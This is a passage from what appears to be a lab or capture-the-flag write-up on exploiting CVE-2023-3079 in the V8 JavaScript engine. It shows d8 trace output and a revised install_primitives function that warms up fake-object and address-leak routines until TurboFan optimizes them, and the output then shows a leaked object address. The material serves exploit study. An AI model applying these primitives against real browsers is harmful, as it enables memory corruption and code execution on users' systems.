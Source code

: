 ```
./d8 --trace-opt original_3079.js
[marking 0x196e00115ead <JSFunction install_primitives (sfi = 0x196e0011581d)> for optimization to TURBOFAN, ConcurrencyMode::kConcurrent, reason: hot and stable]
obj_addr = deadbee0
map = 0
```

As shown, the engine does not optimize the required functions, which is possibly a reason why the POC has failed. Therefore, I increased the loop count to try and see if it would cause the engine to optimize the functions.

```c
// cve-2023-3079.js

function install_primitives() {

    for(let i = 0; i < 10000; i++) {
        weak_fake_obj(true, 1.1);
    }
    for(let i = 0; i < 20000; i++) {
        weak_fake_obj(false, 1.1);
    }

    for(let i = 0; i < 10000; i++) {
        leak_stuff(true);
    }
    for(let i = 0; i < 20000; i++) {
        leak_stuff(false);
    }
    // ...
  }
```

```
level-9 ➜ ./d8 --trace-opt 3079.js
[marking 0x24c000115cd9 <JSFunction weak_fake_obj (sfi = 0x24c00011568d)> for optimization to TURBOFAN, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x24c000115cd9 <JSFunction weak_fake_obj (sfi = 0x24c00011568d)> (target TURBOFAN), mode: ConcurrencyMode::kConcurrent]
[completed compiling 0x24c000115cd9 <JSFunction weak_fake_obj (sfi = 0x24c00011568d)> (target TURBOFAN) - took 0.046, 1.630, 0.022 ms]
[completed optimizing 0x24c000115cd9 <JSFunction weak_fake_obj (sfi = 0x24c00011568d)> (target TURBOFAN)]
[marking 0x24c000115ddd <JSFunction install_primitives (sfi = 0x24c000115791)> for optimization to TURBOFAN, ConcurrencyMode::kConcurrent, reason: hot and stable]
[marking 0x24c000115ca5 <JSFunction leak_stuff (sfi = 0x24c000115659)> for optimization to TURBOFAN, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x24c000115ca5 <JSFunction leak_stuff (sfi = 0x24c000115659)> (target TURBOFAN), mode: ConcurrencyMode::kConcurrent]
[completed compiling 0x24c000115ca5 <JSFunction leak_stuff (sfi = 0x24c000115659)> (target TURBOFAN) - took 0.006, 2.402, 0.020 ms]
[completed optimizing 0x24c000115ca5 <JSFunction leak_stuff (sfi = 0x24c000115659)> (target TURBOFAN)]
obj_addr = 1c25c1
map = 10306d
```
